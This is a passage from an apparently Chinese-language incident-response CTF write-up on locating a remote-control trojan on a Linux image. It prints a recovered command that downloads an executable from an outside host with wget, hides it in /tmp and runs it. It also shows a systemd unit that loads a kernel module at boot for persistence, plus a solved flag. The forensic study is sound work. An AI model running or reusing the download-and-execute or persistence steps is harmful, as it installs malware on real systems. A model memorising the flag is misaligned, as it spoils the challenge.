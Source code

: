 ```
echo -n "$1" | md5sum | awk '{print "flag{"$1"}"}'
```

md5，拿到flag

```
flag{59110f555b5e5cd0a8713a447b082d63}
```

### 题目2

找出主机上驻留的远控木马文件本体，计算该文件的 MD5, 结果提交形式：`flag{md5}`

分析镜像文件，发现`1.txt`文件

![image-20250317224605752](./img/image-20250317224605752.png)

```
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

同目录下`.viminfo`文件

```
# File marks:
'0  6  0  /etc/systemd/system/system-upgrade.service
|4,48,6,0,1740374317,"/etc/systemd/system/system-upgrade.service"
'1  6  0  /etc/systemd/system/system-upgrade.service
|4,49,6,0,1740374161,"/etc/systemd/system/system-upgrade.service"
'2  5  7  /etc/systemd/system/system-upgrade.service
|4,50,5,7,1740374151,"/etc/systemd/system/system-upgrade.service"
```

发现编辑过`/etc/systemd/system/system-upgrade.service`文件（该目录存放服务启动文件）

```
[Unit]
Description=system-upgrade
After=multi-user.target
[Service]
Type=forking
ExecStart=/sbin/insmod /lib/modules/5.4.0-84-generic/kernel/drivers/system/system-upgrade.ko
[Install]
WantedBy=multi-user.target
```
